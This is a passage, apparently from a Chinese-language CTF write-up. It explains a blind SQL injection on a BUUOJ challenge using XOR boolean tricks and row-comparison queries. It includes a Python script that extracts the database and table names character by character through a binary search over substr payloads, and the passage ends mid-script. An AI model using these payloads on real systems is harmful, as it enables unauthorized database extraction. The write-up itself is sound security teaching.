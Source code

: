 所以可以对这两个位置进行字符串的爆破来查看flag，也可以通过第一个字符进行判断\
0 ^ (('g',2)>(select \* from f1ag\_1s\_h3r3\_hhhhh)) 返回 Error 说明第一列第一个字符以 f 开头\
0 ^ ((1,'g')>(select \* from f1ag\_1s\_h3r3\_hhhhh)) 返回 Nu1L\
0 ^ ((1,'f')>(select \* from f1ag\_1s\_h3r3\_hhhhh)) 返回 Error\
说明第二列第一个字符以 f 开头

这里有个地方需要注意，在 MySQL 中 `SELECT((SELECT 'G')>(SELECT 'f'))` 返回 1，但是实际上 G 的ASCII小于 f 的， SELECT((SELECT 'E')>(SELECT 'f')) 返回 0，所以这里在脚本里面进行了设置编码表，并且<mark style="background-color:red;">这里无法判断大小写</mark>

```python
import requests

url = 'http://07fb8bbc-8905-4e86-aa75-150e999cc025.node3.buuoj.cn/index.php'

# 0^1返回 Nu1L
# 0^0返回 Error Occured When Fetch Result

# give_grandpa_pa_pa_pa
def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            payload = f"0^(ascii(substr((select database()),{i},1))>{mid})"
            
            data = {
                'id': payload
            }
            
            r = requests.post(url=url, data=data)
            # print(r.text)
            if 'Nu1L' in  r.text:
                low = mid + 1
            if 'Error' in r.text:
                high = mid
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break

# users233333333333333,f1ag_1s_h3r3_hhhhh
def get_table():
    flag = ''
    for i in range(1, 100):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            payload = f"0^(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{i},1))>{mid})"
            
            data = {
                'id': payload
            }
            
            r = requests.post(url=url, data=data)
            # print(r.text)
```